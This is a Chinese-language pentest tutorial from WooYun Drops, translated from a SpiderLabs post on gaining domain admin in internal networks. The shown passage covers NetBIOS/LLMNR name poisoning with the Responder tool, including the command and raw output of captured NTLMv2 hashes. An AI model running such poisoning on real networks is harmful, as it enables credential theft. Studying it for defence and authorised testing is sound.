 # 得到内网域管理员的 5 种常见方法

2013/09/26 12:11 | [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

from:[`blog.spiderlabs.com/2013/09/top-five-ways-spiderlabs-got-domain-admin-on-your-internal-network.html`](http://blog.spiderlabs.com/2013/09/top-five-ways-spiderlabs-got-domain-admin-on-your-internal-network.html)

spiderlabs 总结的,我简单翻译下,偶尔加点我的牢骚。

## 1.Netbios and LLMNR Name Poisoning

* * *

这个方法在 WIN 工作组下渗透很有用,WIN 的请求查询顺序是下面三个步骤:本地 hosts 文件(`%windir%\System32\drivers\etc\hosts`),DNS 服务器,NetBIOS 广播,如果前 2 个请求失败,则在本地发送 NetBIOS 广播请求,此时任何本地网络的系统都能回答这个请求,使用 SpiderLabs 出品的 Responder 工具,能够在不借助 ARP 欺骗的情况下,响应这个请求.其实 metasploit 也能利用([`www.packetstan.com/2011/03/nbns-spoofing-on-your-way-to-world.html`](http://www.packetstan.com/2011/03/nbns-spoofing-on-your-way-to-world.html)),但实际测试还是 Responder 比较好,都是套用标准库写的,很方便在目标上使用:)

```
~/Responder# python Responder.py -i 192.168.8.25
NBT Name Service/LLMNR Answerer 1.0.
Please send bugs/comments to: lgaffie@trustwave.com
To kill this script hit CRTL-C
[+]NBT-NS & LLMNR responder started
Global Parameters set:
Challenge set is: 1122334455667788
WPAD Proxy Server is:OFF
HTTP Server is:ON
HTTPS Server is:ON
SMB Server is:ON
SMB LM support is set to:0
SQL Server is:ON
FTP Server is:ON
DNS Server is:ON
LDAP Server is:ON
FingerPrint Module is:OFF

LLMNR poisoned answer sent to this IP: 192.168.8.112\. The requested name was : wpad.
LLMNR poisoned answer sent to this IP: 192.168.8.112\. The requested name was : wpad.
LLMNR poisoned answer sent to this IP: 192.168.8.12\. The requested name was : 110.
…snip…

NBT-NS Answer sent to: 192.168.8.6
[+]SMB-NTLMv2 hash captured from : 192.168.8.6
Domain is : BEACONHILLSHIGH
User is : smccall
[+]SMB complete hash is : smccall::BEACONHILLSHIGH:1122334455667788:reallylonghash
Share requested: \\ECONOMY309\IPC$
…snip...

LLMNR poisoned answer sent to this IP: 192.168.8.11\. The requested name was : wpad.
[+]SMB-NTLMv2 hash captured from : 192.168.8.11
Domain is : BEACONHILLSHIGH
User is : lmartin
[+]SMB complete hash is : lmartin:: BEACONHILLSHIGH:1122334455667788:reallylonghash
Share requested: \\ADVCHEM\311IPC$
…snip… 
```
